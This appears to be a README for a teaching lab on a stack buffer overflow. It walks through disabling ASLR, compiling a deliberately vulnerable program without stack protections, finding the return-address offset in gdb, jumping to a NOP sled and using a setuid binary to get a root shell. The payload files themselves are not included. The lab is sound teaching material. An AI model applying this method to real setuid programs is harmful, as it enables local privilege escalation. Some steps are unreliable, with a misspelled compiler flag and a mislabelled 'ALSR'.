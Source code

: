 Basic buffer overflow example.

The buffer is overflown enough to overwrite the value of the
return address which is what eip will be assigned to call.  

This is possible since the strcpy to the buffer occurs without
a size check.

Overwriting the return address allows us to assign eip a NOP in
the said buffer which will lead to shell code execution.

Performing this exploit with a non user but u+s (setuid) will
allow us elevate to root.

1. Test ALSR is disabled:
   * See ../common/README.md on esp.c
2. If not, disable ALSR and re-test:
   * echo 0 > /proc/sys/kernel/randomize_va_space
3. Compile test vulnerable program: 
   * gcc -g -z execstack -fno-stack-protection -o bo1 bo1.c
4. Test with no overflow: 
   * ./bo1 A
5. Test with overflow: 
   * ./bo1 $(cat e1)
   * This should segfault
6. Test we can overwrite return address value using gdb: 
   * cat e2
   * gdb ./bo1
   * break 10
   * r $(cat e2)
   * info registers
   * x/40x $esp 
   * The bottom of stack ($ebp) should contain 4321 
(we can overwrite $eip !!!)
7. Run exploit and select NOP address to replace in exploit file 
using gdb:
   * cat e3 (take note of the NOP sled)
   * gdb ./bo1
   * break 10
   * r $(cat e3)
   * info registers
   * x/40x $esp
   * Select an address in the middle x90 (NOP)
8. Update exploit b3 python script with chosen address (variable 
eip should be your chosen NOP)
9. Run exploit and get shell from gdb (no root since we run gdb as non 
root user):
    * gdb ./bo1
    * r $(cat e4) 
10. Setuid and run without debugger:
    * sudo chown root bo1
    * sudo chmod u+s bo1
    * gdb ./bo1 $(cat e4)
    * id (should be root) 
11. If exploit failed, it's because environment variables are on the 
stack and offset is wrong (different) from when we ran gdb.  Play with 
address in e4 with hexedit adding or removing 50 or 20 at a time until 
it works. A more resiliant method is to run gdb and non gdb exploits with 
an empty envionment like so:
    * env -i PWD="." SHELL="/bin/bash" SHLVL=0 gdb ./bo1 
(remember unset env COLUMNS and unset env LINES)
    * env -i PWD="." SHELL="/bin/bash" SHLVL=0 ./vuln $(cat e4)
